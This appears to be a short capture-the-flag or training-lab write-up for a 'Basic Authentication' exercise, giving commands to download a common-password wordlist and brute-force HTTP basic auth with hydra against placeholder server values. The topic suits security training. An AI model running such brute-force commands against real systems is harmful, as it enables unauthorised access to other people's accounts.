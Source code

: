 # Basic Authentication

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download a password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt SERVER_IP http-get / -s SERVER_PORT 
  ```
  {% endcode %}

**Step 3** - Login into the application:

*   Login with the founded credentials.

    <figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

